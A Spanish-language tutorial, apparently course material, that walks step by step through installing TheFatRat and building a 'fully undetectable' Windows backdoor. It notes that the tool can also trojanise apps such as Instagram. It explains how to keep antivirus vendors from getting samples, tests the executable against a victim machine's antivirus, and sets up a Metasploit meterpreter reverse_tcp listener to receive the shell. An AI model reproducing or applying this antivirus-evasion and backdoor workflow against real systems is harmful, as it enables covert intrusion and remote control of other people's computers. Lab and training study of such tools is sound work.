```yaml
---
icon: mouse-field
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Evasión con TheFatRat

Vamos a ver una herramienta que se utiliza para la evasion de defensas super popular que esta en el siguiente repositorio de `GitHub`:

URL = [TheFatRat GitHub](https://github.com/screetsec/TheFatRat)

No viene instalada por defecto en `kali` por lo que tendremos que realizar lo siguiente para instalarla, adelanto que esta herramienta trae varias tecnicas de `frameworks` famosas para la evasion de defensas, por eso es tan famosa:

```shell
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh
```

Mientras se esta instalando nos aparecera mas adelante una opcion la cual le daremos al `2`:

```
Select one of the options bellow                                                        
 +-----------------------------------------------------+                           
 | [ 1 ] Setup Backdoor-Factory Path Manually          |                           
 | [ 2 ] Install Backdoor-Factory from Kali Repository |                           
 +-----------------------------------------------------+                           
 
 Option : 2 
```

Despues nos aparecera esta otra opcion le daremos a `ENTER` seguidamente la `y`:

```
Write output directory for fatrat generated files or press enter to default.                              
Default : /root/Fatrat_Generated                                                                                                                                      
Write:                                                                             
 Do you want to create a shortcut for fatrat in your system                        
 so you can run fatrat from anywhere in your terminal and desktop ?                                                                                                   
 Choose y/n : y
```

Y con esto ya tendremos la herramienta instalada de forma correcta.

Ahora para iniciar la aplicacion tendremos que poner lo siguiente:

```shell
sudo fatrat
```

Y esto empezara a realizar los checkeos pertinentes para ver que todo este en orden, una vez realizado todo eso, nos pondra el siguiente mensaje:

```
==================================================================                   
         WARNING !  WARNING ! WARNING ! WARNING ! WARNING !                                
    YOU CAN UPLOAD OUTPUT/BACKDOOR FILE TO WWW.NODISTRIBUTE.COM                         
==================================================================                      
 ____  _____ _____ _____    _____ _____ __    _____ _____ ____                     
|    \|     |   | |_   _|  |  |  |  _  |  |  |     |  _  |    \                    
|  |  |  |  | | | | | |    |  |  |   __|  |__|  |  |     |  |  |                   
|____/|_____|_|___| |_|    |_____|__|  |_____|_____|__|__|____/                    
                         _____ _____                                               
                        |_   _|     |                                              
                          | | |  |  |                                              
                          |_| |_____|                                             
 _____ _____ _____ _____ _____    _____ _____ _____ _____ __                
|  |  |     | __  |  |  |   __|  |_   _|     |_   _|  _  |  |                      
|  |  |-   -|    -|  |  |__   |    | | |  |  | | | |     |  |__                    
 \___/|_____|__|__|_____|_____|    |_| |_____| |_| |__|__|_____|                              
==================================================================                             
       PLEASE DON'T UPLOAD BACKDOOR TO WWW.VIRUSTOTAL.COM                                  
    YOU CAN UPLOAD OUTPUT/BACKDOOR FILE TO WWW.NODISTRIBUTE.COM                    
==================================================================                                                                                                    
Press [Enter] key to continue ..............
```

Aqui nos avisa de que no subamos los binarios a `virustotal` ya que este lo comparte con los diferentes antivirus y asi pueden crear firmas para dicho binario y que despues no sirva para `bypassearlo`, despues de esto le daremos a `ENTER`, despues otra ver `ENTER` se iniciara una base de datos de `postgresql` y por ultimo veremos el menu de la herramienta:

```
resize: Time out occurred                                                                                                                                             
         ____                                                                      
        |    |                                                                     
        |____|                                                                     
       _|____|_       _____ _       _____     _   _____     _                      
        /  ee\_      |_   _| |_ ___|   __|___| |_| __  |___| |_                    
      .<     __O       | | |   | -_|   __| .'|  _|    -| .'|  _|                   
     /\ \.-.' \        |_| |_|_|___|__|  |___|_| |__|__|___|_|                     
    J  \.|'.\/ \                                                                   
    | |_.|. | | |   [--]   Backdoor Creator for Remote Acces [--]                  
     \__.' .|-' /   [--]  Created by: Edo Maland (Screetsec) [--]                  
     L   /|o'--'\   [--]            Version: 1.9.8           [--]                  
     |  /\/\/\   \  [--]          Codename: Target          [--]             
     J /      \.__\ [--]   Follow me on Github: @Screetsec   [--]                  
     J /      \.__\ [--]   Dracos Linux : @dracos-linux.org  [--]                  
     |/         /   [--]                                     [--]                  
       \      .'\.  [--]     SELECT AN OPTION TO BEGIN:      [--]                  
    ____)_/\_(___\. [--] .___________________________________[--]                  
   (___._/  \_.___)'\_.-----------------------------------------/                                                                                                 
        [01]  Create Backdoor with msfvenom                                        
        [02]  Create Fud 100% Backdoor with Fudwin 1.0                             
        [03]  Create Fud Backdoor with Avoid v1.2                                  
        [04]  Create Fud Backdoor with backdoor-factory [embed]                    
        [05]  Backdooring Original apk [Instagram, Line,etc]                       
        [06]  Create Fud Backdoor 1000% with PwnWinds [Excelent]                   
        [07]  Create Backdoor For Office with Microsploit                          
        [08]  Trojan Debian Package For Remote Acces [Trodebi]                     
        [09]  Load/Create auto listeners                                           
        [10]  Jump to msfconsole                                                   
        [11]  Searchsploit                                                        
        [12]  File Pumper [Increase Your Files Size]                          
        [13]  Configure Default Lhost & Lport                                    
        [14]  Cleanup                                                           
        [15]  Help                                                           
        [16]  Credits                                                         
        [17]  Exit                                                                                                                                           
 ┌─[TheFatRat]──[~]─[menu]:           
 └─────►   
```

Por lo que vemos podemos `backdoorizar` un binario de muchas formas en este `framework`, podemos hacerlo de diferentes formas con las diferentes herramientas que nos proporciona, incluso en la opcion `05` podemos ver que podemos generar una aplicacion como `instagram` para que cuando se ejecute, tambien se ejecute un `backdoor` que estara por detras para crearnos una `reverse shell`.

En este caso vamos a probar la opcion `2`, por lo que pondremos `2` y nos llevara a dicha tecnica viendo otras opciones:

```
  _______ ___ ___ ______   ___ ___ ___ ______  
  |   _   |   Y   |   _  \ |   Y   |   |   _  \ 
  |.  1___|.  |   |.  |   \|.  |   |.  |.  |   |
  |.  __) |.  |   |.  |    |. / \  |.  |.  |   |
  |:  |   |:  1   |:  1    |:      |:  |:  |   |
  |::.|   |::.. . |::.. . /|::.|:. |::.|::.|   |
   ---     ------- ------   --- --- --- --- ---   1.0
 
 Select one tool to create your Windows EXE FUD Rat 
 

 [ 1 ] - Powerstager 0.2.5 by z0noxz (powershell) (NEW)
 [ 2 ] - Slow But Powerfull (OLD)
 [ 3 ] - Return to menu

 ┌─[TheFatRat]──[~]─[FUDWIN]:
 └─────► 
```

En este caso podremos seleccionar el nuevo `payload` que ha salido para poder generarlo con `powershell` o podremos utilizar el viejo pero que es muy potente, vamos a darle al numero `2` y esto nos abrira una mini ventana de terminal en el que se nos generara el `payload`.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Despues de poner la `IP` y el puerto, veremos esto otro:

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seleccionaremos la opcion `2` para que nos lo compile en `64 bits`, esto puede tardar un poco, pero cuando haya terminado veremos esto:

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Aqui nos comenta que ya compilo el binario de la `backdoor` pero que lo compilo una segunda vez el original para que este de forma mas ofuscada y el segundo compilado se llama `Powerfull-fud.exe` que es el que vamos a utilizar, nos muestra que esta en la siguiente ruta:

```shell
sudo ls -la /root/Fatrat_Generated
```

Info:

```
total 4528
drwxr-xr-x  2 root root    4096 Feb  8 07:03 .
drwx------ 12 root root    4096 Feb  8 07:03 ..
-rwxr-xr-x  1 root root 2591185 Feb  8 07:03 Powerfull.exe
-rwxr-xr-x  1 root root 2035665 Feb  8 07:03 Powerfull-fud.exe
```

Vemos que efectivamente se creo de forma correcta por lo que vamos a copiarnoslo a nuestro escritorio de `kali`.

```shell
sudo cp /root/Fatrat_Generated/Powerfull-fud.exe ~/Desktop
```

Ahora nos tendremos que pasar ese `binario` a la maquina `WS02` para probarlo a ver si lo detecta o no el `antivirus` hay a veces que lo puede detectar, ya que la forma en que la compila varia dependiendo de cuando lo ejecutes, por lo que hay que tener un poco de suerte tambien, pero vamos a probar a pasarnoslo a nuestra maquina victima `Windows`.

Por lo que vemos si nos lo pasamos a la maquina `Windows` con el `antivirus` activado, no nos lo va a detectar en mi caso, ahora vamos a probar a ejecutarlo, pero antes tendremos que estar a la escucha:

```shell
msfconsole -q
```

Ahora vamos a configurar la escucha:

```shell
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.5.205
set LPORT 7777
run
```

Ahora que estamos a la escucha, vamos a nuestra maquina victima `windows` y ejecutamos el binario directamente.

Si nos vamos donde tenemos la escucha tendremos que ver una conexion en `metasploit`, si tuvieramos alguna duda, podremos monitorearlo con `Wrireshark` por si vieramos trafico `TCP`, si vemos ese trafico es que se esta realizando la conexion, pero si no lo vemos es por que el binario esta mal formado o no se esta ejecutando de forma correcta.
